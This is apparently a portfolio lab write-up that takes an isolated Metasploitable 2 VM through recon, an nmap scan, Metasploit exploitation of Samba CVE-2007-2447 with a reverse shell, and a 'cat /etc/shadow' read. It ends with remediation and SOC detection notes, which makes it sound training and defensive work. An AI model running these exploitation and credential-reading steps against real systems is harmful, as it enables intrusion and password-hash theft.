






# Project 1 - Full Attack Simulation
Reconnaissance -> Scanning -> Exploitation

---

## Objective

For this project I wanted to go through a complete attack chain from start to finish, the way a real attacker would approach a target. Starting from zero knowledge of the target, discovering it on the network, scanning it, finding a vulnerability and exploiting it. I also ran Wireshark the entire time to capture and understand what the traffic looks like at each stage.

---

## Lab Setup

| Machine | Role | IP | OS |
|---------|------|----|----|
| Kali Linux 2026.1 | Attacker | 192.168.56.102 | Kali Linux |
| Metasploitable 2 | Target | 192.168.56.101 | Ubuntu 8.04 |

Both machines run in VirtualBox on a Host-Only network, completely isolated from the internet. Metasploitable 2 is an intentionally vulnerable machine built for this kind of practice.

---

## Phase 1 - Reconnaissance

I only knew the subnet. From there I used netdiscover to find what was actually alive on the network.

```bash
sudo netdiscover -r 192.168.56.0/24
```

It came back with 3 hosts. The target showed up at 192.168.56.101.



---

## Phase 2 - Scanning

With the target IP in hand, I ran a full nmap scan to see what services were running and what versions they were on. This is where things get interesting.

```bash
nmap -sV -sC -O 192.168.56.101
```

| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | vsftpd 2.3.4 |
| 22 | SSH | OpenSSH 4.7p1 |
| 23 | Telnet | Linux telnetd |
| 80 | HTTP | Apache 2.2.8 |
| 139/445 | SMB | Samba 3.0.20-Debian |
| 3306 | MySQL | 5.0.51a |
| 5432 | PostgreSQL | 8.3.0 |
| 5900 | VNC | protocol 3.3 |
| 8180 | HTTP | Apache Tomcat 5.5 |

OS detected: Linux 2.6.X (Ubuntu 8.04)

The machine had a lot of open ports which is already a red flag. What stood out immediately was Samba 3.0.20. That specific version has a well known critical vulnerability - CVE-2007-2447.




---

## Phase 3 - Exploitation

### CVE-2007-2447 - Samba Username Map Script RCE

Samba 3.0.20 has a flaw in how it handles the username field during SMB authentication. An attacker can inject shell commands through it without needing any credentials. CVSS Score: 10.0 Critical.

I used Metasploit to exploit it:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set LHOST 192.168.56.102
exploit
```
[] Started reverse TCP handler on 192.168.56.102:4444
[] Command shell session 1 opened
(192.168.56.102:4444 -> 192.168.56.101:47895)
whoami
root
Root access. No credentials, no brute force, just a vulnerable service version. That is how fast it can go when software is not patched.



---

## Phase 4 - Post-Exploitation

Once inside I confirmed the access level and read /etc/shadow to show what root access actually means in practice.

```bash
id && hostname && cat /etc/shadow
```

Every password hash on the system was right there. In a real scenario this would be game over.



---

## Wireshark - Traffic Analysis

I kept Wireshark running the entire time. Looking back at the capture you can clearly see the different phases of the attack just from the traffic patterns:

- Reconnaissance generates a spike of ARP requests in a very short window
- Scanning floods the target with SYN packets across all ports
- The exploitation shows SMB traffic followed immediately by an outbound connection on port 4444, which is the reverse shell connecting back

Capture file: [Proiect 1.pcapng](captures/Proiect%201.pcapng)



---

## Findings

| Vulnerability | CVE | Severity | Remediation |
|--------------|-----|----------|-------------|
| Samba 3.0.20 RCE | CVE-2007-2447 | Critical | Upgrade Samba >= 3.0.25 |
| FTP Anonymous Login | - | Medium | Disable anonymous FTP |
| Telnet enabled | - | High | Replace with SSH |
| VNC no authentication | - | High | Enable VNC authentication |
| Apache 2.2.8 | Multiple CVEs | High | Upgrade Apache |

---

## SOC Detection Perspective

This is the part I find most useful to think about. If a SOC analyst was watching this network, here is what they would have seen:

1. A burst of ARP requests hitting the network - that is netdiscover doing its job, but from a defender perspective it is an immediate sign of reconnaissance
2. Thousands of SYN packets to every port on one host - a port scan is hard to miss in a SIEM
3. An SMB connection followed within seconds by an outbound TCP connection on port 4444 - that reverse shell pattern is a classic indicator of compromise
4. A process reading /etc/shadow - any decent EDR would fire on that instantly

MITRE ATT&CK Mapping:
- T1595 - Active Scanning
- T1046 - Network Service Discovery
- T1210 - Exploitation of Remote Services
- T1078 - Valid Accounts

---

## Author

Mihai-Denis Taplagea
SOC Analyst Portfolio
April 2026
